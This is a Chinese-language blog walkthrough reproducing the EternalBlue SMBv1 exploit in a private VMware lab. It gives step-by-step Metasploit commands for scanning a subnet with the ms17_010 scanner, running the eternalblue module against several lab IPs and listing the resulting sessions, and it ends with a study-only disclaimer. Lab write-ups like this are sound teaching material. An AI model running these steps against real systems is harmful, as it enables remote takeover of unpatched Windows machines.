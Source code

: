 ```yaml
---
title: 永恒之蓝的一个简单复现
author: Enomothem
tags:
  - Pentesting
  - CVE-2017-0146
abbrlink: c59b
date: 2020-12-05 22:03:50
---
```




# [复现 CVE-2017-0146](https://enomothem.cn/2020/12/05/%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E7%9A%84%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0/)



>有时候，一个人就是一支队伍。



##  Ax 介绍

 Microsoft Windows和Microsoft Windows Server都是美国微软（Microsoft）公司的产品。Microsoft Windows是一套个人设备使用的操作系统。Microsoft Windows Server是一套服务器操作系统。Server Message Block（SMB）Server是其中的一个为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。以下版本受到影响：Microsoft Windows Vista SP2，Windows Server 2008 SP2和R2 SP1，Windows 7 SP1，Windows 8.1，Windows Server 2012 Gold和R2，Windows RT 8.1，Windows 10 Gold，1511和1607，Windows Server 2016。 

Microsoft Windows SMB 输入验证错误漏洞即永恒之蓝，CVE-2017-0146.


## Bx 准备

Vmware Workstation pro

Windows 7 SP1

Windows Server 2003 

kali Linux 2020.4



## Cx 探测

#### a 打开MSF

``` msfconsole ```

#### b 探测漏洞

``` use auxiliary/scanner/smb/smb_ms17_010```

#### c 设置内网段

``` set rhosts 192.168.66.130/24 ```

#### d 设置线程

```set threads 100 ```

#### e 开始

``` exploit```



![Enomothem](https://s3.ax1x.com/2020/12/06/DO4cnJ.png)


![Enomothem](https://s3.ax1x.com/2020/12/06/DO4j4P.png)



好，扫描到两台可能有漏洞的机器，记住它们两的IP。

## Dx 攻击

#### a 使用攻击模块

```  use exploit/windows/smb/ms17_010_eternalblue ```

#### b 设置IP地址

``` set rhost 192.168.66.130  ```

#### c 因为默认帮我们选择了payload，直接开打

``` exploit``` or ``` run```  		// 我更喜欢用前者



[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5CuQ.md.png)](https://imgchr.com/i/DO5CuQ)

好，成功了，然后返回，我们继续第二个目标

``` background```

``` set rhost 192.168.66.136 ```

```exploit```

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5iHs.png)](https://imgchr.com/i/DO5iHs)

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5ANq.png)](https://imgchr.com/i/DO5ANq)

喔嚯，只支持64位的，2003这个假的吧，怎么是32位的。

这不行，开启我的2008，继续攻击。

```set rhost 192.168.66.135 ```

```exploit ```

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5e3T.png)](https://imgchr.com/i/DO5e3T)

ok.

这样，我们就和两个机器建立了会话了

``` sessions -l ```

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5mgU.png)](https://imgchr.com/i/DO5mgU)

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO5MDJ.png)](https://imgchr.com/i/DO5MDJ)

[![Enomothem](https://s3.ax1x.com/2020/12/06/DO51ER.png)](https://imgchr.com/i/DO51ER)



## Ex 声明

- 请遵守，爱护《中国网络安全法》。
- 仅供学习参考！
- 请注明出处！



## Fx 参考

[1]《**Pentesting** **Blueprint**》永恒之锋出版（未公开）。

[2]http://vulhub.org.cn/vuln/VHN-98965 漏洞信息库门户。